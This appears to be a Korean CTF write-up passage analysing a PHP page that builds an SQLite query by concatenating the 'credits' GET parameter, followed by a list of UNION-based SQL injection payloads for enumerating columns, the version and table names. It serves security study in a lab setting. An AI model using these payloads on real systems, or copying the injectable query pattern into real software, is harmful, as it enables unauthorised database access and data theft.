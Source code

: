 ```
+ Created by
  + challenges.ctfd.io:30026
```

+ #### 문제 풀이 & 문제 분석

	문제 링크에 들어가보면

	```php
	[{"course_id":"BIO-399","title":"Computational Biology","dept_name":"Biology","credits":"3"},{"course_id":"CS-315","title":"Robotics","dept_name":"Comp. Sci.","credits":"3"},{"course_id":"CS-319","title":"Image Processing","dept_name":"Comp. Sci.","credits":"3"},{"course_id":"CS-347","title":"Database System Concepts","dept_name":"Comp. Sci.","credits":"3"},{"course_id":"EE-181","title":"Intro. to Digital Systems","dept_name":"Elec. Eng.","credits":"3"},{"course_id":"FIN-201","title":"Investment Banking","dept_name":"Finance","credits":"3"},{"course_id":"HIS-351","title":"World History","dept_name":"History","credits":"3"},{"course_id":"MU-199","title":"Music Video Production","dept_name":"Music","credits":"3"}] <?php
    	$dbhandle = new PDO("sqlite:../uni.db") or die("Failed to open DB");
    	if (!$dbhandle) die ($error);

    	$credits = 3;
    	if (isset($_GET["credits"])){
    		$credits = $_GET["credits"];
    	}
    	$query = "select * from course where credits=".$credits;
    	$statement = $dbhandle->prepare($query);
    	$statement->execute();
    	$results = $statement->fetchAll(PDO::FETCH_ASSOC);

    	echo json_encode($results);
    	echo highlight_file(__FILE__, true);
	?>
	```

	이런식으로 sqlite와 연동한 PHP 소스코드가 나와있는것을 볼 수 있습니다.
	해당 로직을 간단하게 파악해보면
	
	```php
	$query = "select * from course where credits=".$credits;
	```
	
	이런식으로 sqlite와 연동하여 ``?credits=n`` 이런식으로 요청하면 SQL 구문을 날리고 반환값을 출력합니다.

	해당 SQL 구문을 악의적으로 삽입하기 위해

	```sql
	0 or 1=1
	0 UNION SELECT 1
	0 UNION SELECT 1,2
	0 UNION SELECT 1,2,3
	0 UNION SELECT 1,2,3,4
	0 UNION SELECT 1,2,3,sqlite_version()
	0 UNION SELECT tbl_name,1,2,3 FROM sqlite_master
	```
